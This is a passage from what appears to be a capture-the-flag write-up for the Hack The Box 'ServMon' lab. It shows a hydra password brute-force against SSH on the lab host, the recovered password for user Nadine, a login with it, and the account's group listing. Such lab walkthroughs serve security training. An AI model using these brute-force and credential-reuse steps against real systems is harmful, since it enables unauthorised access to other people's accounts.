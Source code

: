 ## Road to User

now lets try to login to ssh as `Nathan` and `Nadine`.

```text
zweilos@kalimaa:~/htb/servmon$ hydra -l Nadine -P passwords 10.10.10.184 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-20 21:06:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-20 21:07:01
```

thanks `Nadine` for using the same password you recommended!

```text
zweilos@kalimaa:~/htb/servmon$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami /all

USER INFORMATION                                            
----------------                                            

User Name      SID                                          
============== =============================================
servmon\nadine S-1-5-21-3877449121-2587550681-992675040-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes

====================================== ================ ============ ==================================
================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by defaul
t, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by defaul
t, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by defaul
t, Enabled group
```